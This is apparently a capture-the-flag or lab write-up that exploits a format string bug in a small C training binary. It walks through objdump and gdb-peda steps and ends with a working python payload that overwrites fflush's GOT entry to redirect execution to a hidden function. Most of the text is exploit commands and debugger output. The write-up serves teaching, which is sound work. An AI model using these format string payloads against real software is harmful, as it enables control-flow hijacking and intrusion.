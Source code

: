 Let's take a look at the source code...

```
#include <stdlib.h>
#include <stdio.h>

void fire_exit()
{
	printf("Oh look, a fire exit. That's why we are still under budget. Level Cleared \n");
}

void fun0()
{
	puts("Oh I almost forgot to mention, due to budget cuts we decided to get rud if tge exit. Just think of all of the security research we can do now!. And by we, I mean you.\n");
	char buf0[100];
	fgets(buf0, sizeof(buf0), stdin);
	printf(buf0);
	fflush(stdout);
}

int main()
{
	fun0();
}
```

So looking at this code, we see that the objective is to run the fire_exit function. However there isn't anywhere in the code that directly calls thay function. However after the insecure printf call, we can see a fflush() function call. We can craft a format string exploit to overwrite the address of the fflush variable with that of the fire_exit() function, thus when when the binary tries to run the fflush function it will just run the fire_exit() function. First thing we will need is the address of the fire_exit() function.

```
$	objdump -t f4_64 | grep fire_exit
00000000004006e6 g     F .text	0000000000000011              fire_exit
```

So we now have the address of the fire_exit() function, which is 0x4006e6. Now we need to find the address of the fflush function. Since fflush is in libc (which is a shared library), we can view it in the dynamic relocation with objdump (using the -R flag).

```
$	objdump -R f4_64 | grep fflush
0000000000601040 R_X86_64_JUMP_SLOT  fflush@GLIBC_2.2.5
```

Now let's figure out how to properly format the address so the exploit will work. In here we will have four characters before the address, and five zeros after the address that way it somewhat resembles the final exploit.

```
$	python -c 'print "%7$x" + "\x40\x10\x60\x00\x00\x00\x00"' > payload
```

and now onto gdb

```
gdb-peda$ disas fun0
Dump of assembler code for function fun0:
   0x00000000004006f7 <+0>:	push   rbp
   0x00000000004006f8 <+1>:	mov    rbp,rsp
   0x00000000004006fb <+4>:	sub    rsp,0x70
   0x00000000004006ff <+8>:	mov    rax,QWORD PTR fs:0x28
   0x0000000000400708 <+17>:	mov    QWORD PTR [rbp-0x8],rax
   0x000000000040070c <+21>:	xor    eax,eax
   0x000000000040070e <+23>:	mov    edi,0x400858
   0x0000000000400713 <+28>:	call   0x400580 <puts@plt>
   0x0000000000400718 <+33>:	mov    rdx,QWORD PTR [rip+0x200951]        # 0x601070 <stdin@@GLIBC_2.2.5>
   0x000000000040071f <+40>:	lea    rax,[rbp-0x70]
   0x0000000000400723 <+44>:	mov    esi,0x64
   0x0000000000400728 <+49>:	mov    rdi,rax
   0x000000000040072b <+52>:	call   0x4005c0 <fgets@plt>
   0x0000000000400730 <+57>:	lea    rax,[rbp-0x70]
   0x0000000000400734 <+61>:	mov    rdi,rax
   0x0000000000400737 <+64>:	mov    eax,0x0
   0x000000000040073c <+69>:	call   0x4005a0 <printf@plt>
   0x0000000000400741 <+74>:	mov    rax,QWORD PTR [rip+0x200918]        # 0x601060 <stdout@@GLIBC_2.2.5>
   0x0000000000400748 <+81>:	mov    rdi,rax
   0x000000000040074b <+84>:	call   0x4005d0 <fflush@plt>
   0x0000000000400750 <+89>:	nop
   0x0000000000400751 <+90>:	mov    rax,QWORD PTR [rbp-0x8]
   0x0000000000400755 <+94>:	xor    rax,QWORD PTR fs:0x28
   0x000000000040075e <+103>:	je     0x400765 <fun0+110>
   0x0000000000400760 <+105>:	call   0x400590 <__stack_chk_fail@plt>
   0x0000000000400765 <+110>:	leave  
   0x0000000000400766 <+111>:	ret    
End of assembler dump.
gdb-peda$ b *fun0+69
Breakpoint 1 at 0x40073c
gdb-peda$ r < payload
Starting program: /Hackery/escape/fmt_str/f4_64/f4_64 < payload
Oh I almost forgot to mention, due to budget cuts we decided to get rud if tge exit. Just think of all of the security research we can do now!. And by we, I mean you.


 [----------------------------------registers-----------------------------------]
RAX: 0x0 
RBX: 0x0 
RCX: 0xa00000000601040 
RDX: 0x7ffff7dd3790 --> 0x0 
RSI: 0x60242c --> 0x0 
RDI: 0x7fffffffddb0 --> 0x60104078243725 
RBP: 0x7fffffffde20 --> 0x7fffffffde30 --> 0x400780 (<__libc_csu_init>:	push   r15)
RSP: 0x7fffffffddb0 --> 0x60104078243725 
RIP: 0x40073c (<fun0+69>:	call   0x4005a0 <printf@plt>)
R8 : 0x60242c --> 0x0 
R9 : 0x0 
R10: 0x7ffff7fd3700 (0x00007ffff7fd3700)
R11: 0x246 
R12: 0x4005f0 (<_start>:	xor    ebp,ebp)
R13: 0x7fffffffdf10 --> 0x1 
R14: 0x0 
R15: 0x0
EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x400730 <fun0+57>:	lea    rax,[rbp-0x70]
   0x400734 <fun0+61>:	mov    rdi,rax
   0x400737 <fun0+64>:	mov    eax,0x0
=> 0x40073c <fun0+69>:	call   0x4005a0 <printf@plt>
   0x400741 <fun0+74>:	
    mov    rax,QWORD PTR [rip+0x200918]        # 0x601060 <stdout@@GLIBC_2.2.5>
   0x400748 <fun0+81>:	mov    rdi,rax
   0x40074b <fun0+84>:	call   0x4005d0 <fflush@plt>
   0x400750 <fun0+89>:	nop
Guessed arguments:
arg[0]: 0x7fffffffddb0 --> 0x60104078243725 
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffddb0 --> 0x60104078243725 
0008| 0x7fffffffddb8 --> 0xa000000 ('')
0016| 0x7fffffffddc0 --> 0x0 
0024| 0x7fffffffddc8 --> 0x0 
0032| 0x7fffffffddd0 --> 0x0 
0040| 0x7fffffffddd8 --> 0x0 
0048| 0x7fffffffdde0 --> 0xff00000000000000 
0056| 0x7fffffffdde8 --> 0xff0000000000 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x000000000040073c in fun0 ()
gdb-peda$ x/x 0x7fffffffddb0
0x7fffffffddb0:	0x0060104078243725
```

So we can see that the address is not in it's own QWORD. We should be able to add four characters before the address should move it over to the next QWORD.

```
$	python -c 'print "%7$x0000" + "\x40\x10\x60\x00\x00\x00\x00\x00"' > payload
```

Now onto gdb using the same breakpoint...

```
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffddb0 ("%7$x0000@\020`")
0008| 0x7fffffffddb8 --> 0x601040 --> 0x4005d6 (<fflush@plt+6>:	push   0x5)
0016| 0x7fffffffddc0 --> 0xa ('\n')
0024| 0x7fffffffddc8 --> 0x0 
0032| 0x7fffffffddd0 --> 0x0 
0040| 0x7fffffffddd8 --> 0x0 
0048| 0x7fffffffdde0 --> 0xff00000000000000 
0056| 0x7fffffffdde8 --> 0xff0000000000 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x000000000040073c in fun0 ()
gdb-peda$ x/x 0x7fffffffddb8
0x7fffffffddb8:	0x0000000000601040
```

Now it is in it's own QWORD, we can wite to it. Right now the write will be for zero bytes, since nothing is printed before the "%7$x" which symbolizes the flag which will be writing to the fflush function. What we can do to rewrite it to the fire_exit function is writing the amount of bytes equal to the hex string of the fire_exit function. Let's find out how many bytes we will need to write using python.

```
>>> 0x4006e6
4196070
```

So we will need to write 4196070 bytes in order to rewrite fflush to fire_exit. For this we will just have the format string print out that many bytes. That will add 9 characters, thus making the critical portion of our explooit 13 characters long (%4196070x%8$n). We need the length to be a multiple of 8, since QWORDS can hold 8 characters and if this portion overfills into the next QWORD it will mess up the address and the exploit won't work. We can fix this by just adding three characters to the end. This will move the address over onw QWORD (before it was at 7, now it's at 8). Let's test it!

```
$	python -c 'print "%4196070x%8$n000" + "\x40\x10\x60\x00\x00\x00\x00\x00"'| ./f4_64 
```

One wall of text later...

```
602439000@`Oh look, a fire exit. That's why we are still under budget. Level Cleared 
```

Just like that, we pwned the binary!